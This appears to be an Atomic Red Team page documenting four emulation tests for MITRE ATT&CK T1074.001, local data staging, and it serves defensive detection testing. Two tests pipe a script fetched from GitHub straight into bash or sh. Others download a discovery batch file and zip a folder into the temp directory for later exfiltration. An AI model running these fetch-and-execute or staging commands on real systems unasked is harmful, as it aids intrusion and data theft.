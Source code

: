 # T1074.001 - Data Staged: Local Data Staging
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1074/001)
<blockquote>Adversaries may stage collected data in a central location or directory on the local system prior to Exfiltration. Data may be kept in separate files or combined into one file through techniques such as [Archive Collected Data](https://attack.mitre.org/techniques/T1560). Interactive command shells may be used, and common functionality within [cmd](https://attack.mitre.org/software/S0106) and bash may be used to copy data into a staging location.

Adversaries may also stage collected data in various available formats/locations of a system, including local storage databases/repositories or the Windows Registry.(Citation: Prevailion DarkWatchman 2021)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Stage data from Discovery.bat](#atomic-test-1---stage-data-from-discoverybat)

- [Atomic Test #2 - Stage data from Discovery.sh](#atomic-test-2---stage-data-from-discoverysh)

- [Atomic Test #3 - Stage data from Discovery.sh (freebsd)](#atomic-test-3---stage-data-from-discoverysh-freebsd)

- [Atomic Test #4 - Zip a Folder with PowerShell for Staging in Temp](#atomic-test-4---zip-a-folder-with-powershell-for-staging-in-temp)


<br/>

## Atomic Test #1 - Stage data from Discovery.bat
Utilize powershell to download discovery.bat and save to a local file. This emulates an attacker downloading data collection tools onto the host. Upon execution,
verify that the file is saved in the temp directory.

**Supported Platforms:** Windows


**auto_generated_guid:** 107706a5-6f9f-451a-adae-bab8c667829f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Location to save downloaded discovery.bat file | path | $env:TEMP&#92;discovery.bat|


#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-WebRequest "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074.001/src/Discovery.bat" -OutFile #{output_file}
```

#### Cleanup Commands:
```powershell
Remove-Item -Force #{output_file} -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - Stage data from Discovery.sh
Utilize curl to download discovery.sh and execute a basic information gathering shell script

**Supported Platforms:** Linux, macOS


**auto_generated_guid:** 39ce0303-ae16-4b9e-bb5b-4f53e8262066





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Location to save downloaded discovery.bat file | path | /tmp/T1074.001_discovery.log|


#### Attack Commands: Run with `bash`! 


```bash
curl -s https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074.001/src/Discovery.sh | bash -s > #{output_file}
```






<br/>
<br/>

## Atomic Test #3 - Stage data from Discovery.sh (freebsd)
Utilize curl to download discovery.sh and execute a basic information gathering shell script

**Supported Platforms:** Linux


**auto_generated_guid:** 4fca7b49-379d-4493-8890-d6297750fa46





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Location to save downloaded discovery.bat file | path | /tmp/T1074.001_discovery.log|


#### Attack Commands: Run with `sh`! 


```sh
curl -s https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074.001/src/Discovery.sh | sh -s > #{output_file}
```




#### Dependencies:  Run with `sh`!
##### Description: Check if curl is installed.
##### Check Prereq Commands:
```sh
if [ ! -x "$(command -v curl)" ]; then exit 1; else exit 0; fi;
```
##### Get Prereq Commands:
```sh
(which pkg && pkg install -y curl)
```




<br/>
<br/>

## Atomic Test #4 - Zip a Folder with PowerShell for Staging in Temp
Use living off the land tools to zip a file and stage it in the Windows temporary folder for later exfiltration. Upon execution, Verify that a zipped folder named Folder_to_zip.zip
was placed in the temp directory.

**Supported Platforms:** Windows


**auto_generated_guid:** a57fbe4b-3440-452a-88a7-943531ac872a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Location to save zipped file or folder | path | $env:TEMP&#92;Folder_to_zip.zip|
| input_file | Location of file or folder to zip | path | PathToAtomicsFolder&#92;T1074.001&#92;bin&#92;Folder_to_zip|


#### Attack Commands: Run with `powershell`! 


```powershell
Compress-Archive -Path "#{input_file}" -DestinationPath #{output_file} -Force
```

#### Cleanup Commands:
```powershell
Remove-Item -Path #{output_file} -ErrorAction Ignore
```





<br/>
